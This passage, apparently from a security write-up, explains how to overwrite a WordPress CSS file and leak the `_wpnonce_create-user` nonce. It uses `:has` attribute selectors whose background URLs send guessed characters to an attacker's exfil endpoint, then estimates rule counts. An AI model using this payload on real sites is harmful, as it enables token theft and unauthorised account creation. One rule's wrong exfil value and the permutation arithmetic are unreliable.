 Nice! We can overwrite CSS file and perform CSS injection!

Now, the question is: "How can we exfiltrate the nonce using CSS styles?"

There are lots of great resources that teach CSS injection. I'd recommend you to read this series written by [Huli](https://blog.huli.tw/en/about/): [Chapter 3 - Beyond XSS: Explore the Web Front-end Security Universe](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/).

In our case, we could use the following CSS injection payload to exfiltrate nonce `_wpnonce_create-user`:

```css
form:has(input[name="_wpnonce_create-user"][value^="a"]) {
  background: url("http://localhost:8000/exfil?nonce=a");
}

form:has(input[name="_wpnonce_create-user"][value^="b"]) {
  background: url("http://localhost:8000/exfil?nonce=a");
}
[...]
form:has(input[name="_wpnonce_create-user"][value^="aa"]) {
  background: url("http://localhost:8000/exfil?nonce=aa");
}

form:has(input[name="_wpnonce_create-user"][value^="ab"]) {
  background: url("http://localhost:8000/exfil?nonce=ab");
}
[...]
```

In here, since CSS doesn't allow us to directly select hidden element, we need to use CSS selector **[`:has`](https://developer.mozilla.org/en-US/docs/Web/CSS/:has)** to select elements below that meet specific conditions. In our case, the `:has` selector is to select the `<form>` element that has `<input>` element where property `name` is `_wpnonce_create-user` and with value starting with `a`, `b`, `aa`, and so on. If the conditions are met, it'll send a GET request to our attacker website, effectively exfiltrating the nonce.

By default, WordPress nonces' length are 10, and the character set is lowercase hexadecimal. In the above approach, if we try to exfiltrate the nonce, we need to have **29,059,430,400 permutations** of CSS rules:

$$
\begin{aligned}
P(n,r) & = \frac{n!}{(n - r)!} \\
& = \frac{16!}{(16 - 10)!} \\
& = 29059430400
\end{aligned}
$$

Which means the CSS file size has at least 1 GB in size! There's no way that the browser can load that giant CSS file. (If you try to load a 1 GB CSS file, your browser will very likely hang and crash.)

What if we optimize the CSS selector? We could try to use `[value^=a]` (prefix), `[value$=a]` (suffix), and `[value*=a]` (contains). Since the nonce is 10 characters long, we can split it in like 4, 4, and 2 characters for prefix, suffix, and contains, which has **43680 + 43680 + 240 permutations**. Seems a lot more doable.
